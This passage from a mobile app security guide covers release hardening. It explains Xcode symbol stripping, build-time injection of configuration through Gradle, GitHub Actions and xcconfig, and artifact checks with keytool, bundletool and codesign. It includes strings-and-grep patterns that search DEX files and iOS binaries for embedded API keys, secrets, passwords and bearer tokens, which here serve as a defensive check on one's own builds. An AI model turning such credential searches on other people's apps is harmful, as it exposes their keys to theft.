| `STRIP_STYLE` | `all` for an app, `non-global` for a dynamic framework | How much to strip |
| `STRIP_SWIFT_SYMBOLS` | `YES` | Also removes Swift symbols when the binary is stripped |
| `DEBUG_INFORMATION_FORMAT` | `dwarf-with-dsym` | Keep the symbols, but in a separate dSYM rather than the binary |
| `SWIFT_OPTIMIZATION_LEVEL` | `-O` | Release optimization (note that `assert` isn't evaluated) |
| `ENABLE_TESTABILITY` | `NO` | When `YES`, Xcode exports internal symbols for tests and skips stripping altogether |

Don't set `GCC_GENERATE_DEBUGGING_SYMBOLS` to `NO`, as some checklists advise: it stops Xcode producing the dSYM you need. Keep the generated dSYM files somewhere you can retrieve them. You need them to symbolicate crash reports (turn memory addresses back into function names), and stripping the binary is what makes them necessary. Upload them to your crash reporter from CI, not from a laptop.

#### Injecting configuration at build time

On **Android**, read values from a file that CI writes and `.gitignore` excludes, and fall back to the environment:

```kotlin
// app/build.gradle.kts
import java.util.Properties

val localProps = Properties().apply {
    val f = rootProject.file("local.properties")
    if (f.exists()) f.inputStream().use { load(it) }
}

fun config(name: String): String =
    localProps.getProperty(name) ?: System.getenv(name)
        ?: throw GradleException("Missing build configuration: $name")

android {
    buildFeatures { buildConfig = true }
    defaultConfig {
        buildConfigField("String", "API_BASE_URL", "\"${config("API_BASE_URL")}\"")
        manifestPlaceholders["mapsApiKey"] = config("MAPS_API_KEY")
    }
}
```

```yaml
# .github/workflows/release.yml (steps of the release job)
- name: Write local.properties
  env:
    API_BASE_URL: ${{ vars.API_BASE_URL }}
    MAPS_API_KEY: ${{ secrets.MAPS_API_KEY }}
  run: |
    printf 'API_BASE_URL=%s\n' "$API_BASE_URL" >> local.properties
    printf 'MAPS_API_KEY=%s\n' "$MAPS_API_KEY" >> local.properties
- run: ./gradlew bundleRelease
```

`config()` runs when Gradle configures the project, so it throws for every build that lacks the values, not only release builds: debug builds, a fresh clone, and §15.3's check job too. Give those jobs non-secret placeholder values (for example, `MAPS_API_KEY=unused`), or fall back to a placeholder for non-release builds.

The workflow passes the values through `env:` rather than pasting them into the script, for the same reason as §15.3's injection rule. The API base URL is a repository *variable*, not a secret, because it isn't secret (§15.2). The Maps key is a client identifier: it ships in the app whatever you do, so restrict it by package name and certificate in the provider's console.

On **iOS**, use an `.xcconfig` file that CI generates and source control ignores:

```text
// Secrets.xcconfig  (gitignored; CI writes it)
API_HOST = api.example.com
```

Reference it from `Info.plist` as `$(API_HOST)` and read it with `Bundle.main.object(forInfoDictionaryKey: "API_HOST") as? String`.

> **Trap:** in `.xcconfig` files, `//` starts a comment, even inside a value. `API_URL = https://api.example.com` is silently read as `https:`. Store the host and build the URL in code.

**Remember what this does and doesn't achieve.** Build-time injection keeps values out of source control, which is §15.2's actual goal. It does **not** keep them out of the app: anything in `BuildConfig`, a manifest placeholder, or `Info.plist` is in the binary and recoverable with `strings`. Only the classification in §15.2 decides what may ship at all, and anything sensitive belongs behind the Backend-for-Frontend (BFF), the server you run between the app and third-party APIs (§12.3).

#### Verify it

Build configuration is where the source and the artifact most often disagree, so check the artifact. For an App Bundle, check the signature on the `.aab` itself, then build a universal APK from it only to inspect the contents. Don't check the signer on that APK: without `--ks`, `bundletool` signs it with your local debug key. The APK a device actually receives is signed with Google's app signing key, which you can't reproduce locally.

```bash
# Who signed the bundle CI produced? Compare with the UPLOAD certificate.
keytool -printcert -jarfile app-release.aab

# What actually shipped? Build a universal APK for content checks only.
bundletool build-apks --bundle=app-release.aab --output=app.apks --mode=universal
unzip -p app.apks universal.apk > app-release.apk
# Search every DEX file, not only classes.dex.
unzip -o -q app-release.apk 'classes*.dex' -d build/apk-dex
strings build/apk-dex/classes*.dex | grep -iE "api[_-]?key|secret|password|bearer"
aapt2 dump badging app-release.apk | grep -E "^package:|application-debuggable"
```

If you ship an APK directly (outside Play), run `apksigner verify --verbose --print-certs` on that APK instead of `keytool`.

**Pass:** no credentials in the output, no `application-debuggable` line, and a SHA-256 on the `.aab`'s signer certificate that matches the **upload** certificate Play Console shows (**Protected with Play → Play Store protection → Manage Play app signing**, in the *Upload key certificate* section). A failure on any of the three is a release-blocking finding, not a backlog item.

For iOS, on the built `.app` (or the app inside an `.xcarchive`):

```bash
strings MyApp.app/MyApp | grep -iE "api[_-]?key|secret|internal"
codesign --verify --deep --strict --verbose=2 MyApp.app
codesign -d --entitlements - MyApp.app | grep -A1 "get-task-allow"
```

**Pass:** no credentials; `codesign` reports the app valid and satisfying its designated requirement; and `get-task-allow`, which lets a debugger attach, is absent or `false` in a distribution build.

Then confirm logging is gone by running the release build and watching `adb logcat` or Console during a login flow. A build flag that says logging is disabled isn't evidence; an empty log is.

Put all of this in a release-gate job (§15.7). A check that runs only when someone remembers isn't a control.

**Key takeaways**

- Your pipeline can ship code under your signature. Give workflow files the review and least privilege you give production.
- Pin actions to commit SHAs (written by a tool, not by hand), deny token permissions by default, and never interpolate untrusted input into `run:`.
- `pull_request_target` and shared caches are where recent attacks crossed from untrusted to trusted. Keep them apart.
- Provenance proves which process built an artifact, not that its inputs were clean.
- Use Play App Signing and App Store Connect team keys with minimum roles, gate production behind a human approval, and verify the artifact rather than the configuration.

**Try it**

1. Run `zizmor .github/workflows/` and `actionlint` on your repository. Fix every high-severity finding, starting with unpinned actions and template injection.
2. Open *Settings → Actions → General* for your repository and organization. Check the default `GITHUB_TOKEN` permission, whether SHA pinning is required, and whether fork pull requests need approval before workflows run. Write down what you changed.
3. Build your release artifact locally and run the Verify it commands above. Compare the `.aab`'s signer digest with the upload certificate Play Console shows, or, for iOS, with your distribution certificate.

---
